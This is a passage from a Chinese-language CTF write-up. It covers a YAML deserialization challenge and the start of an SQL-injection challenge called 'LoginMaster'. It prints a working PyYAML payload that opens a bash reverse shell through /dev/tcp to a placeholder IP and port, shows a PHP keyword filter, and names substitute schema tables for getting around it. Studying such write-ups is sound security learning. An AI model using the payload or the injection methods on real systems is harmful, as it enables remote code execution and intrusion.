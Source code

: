 这里主要利用 `boogipop`路由，**yaml反序列化**

这个暂时不太会，直接放payload：

```python
!!python/object/new:str
    args: []
    state: !!python/tuple
      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/ip/port <&1\"')"
      - !!python/object/new:staticmethod
        args: []
        state:
          update: !!python/name:eval
          items: !!python/name:list
```

我们将IP、port改为自己的，然后在服务器开启监听，上传这个文件，然后利用boogipop路由即可：

![image-20230428114313417](https://s2.loli.net/2023/04/28/chQam2LvRYqZUuD.png)

注意改一下session

![image-20230428114353862](https://s2.loli.net/2023/04/28/KZU5rnYScgzbHsA.png)

在	`/proc/1/environ` 发现flag





#### LoginMaster



**robots.txt泄露**

```php
<?php
function checkSql($s) 
{
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}
if ($row['password'] === $password) {
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```

sql注入题目，username必须为admin，此处我们需要从密码着手

但是注意看，过滤了 `in` ，意味着我们不能使用 `information_schema`库查询表名，列名

我本来是想找一下除了`information_schema`库，还有哪些库能用来查询的，找了这么几个：

```
mysql.innodb_table_stats
sys.schema_table_statistics
sys.schema_table_statistics_with_buffer
```
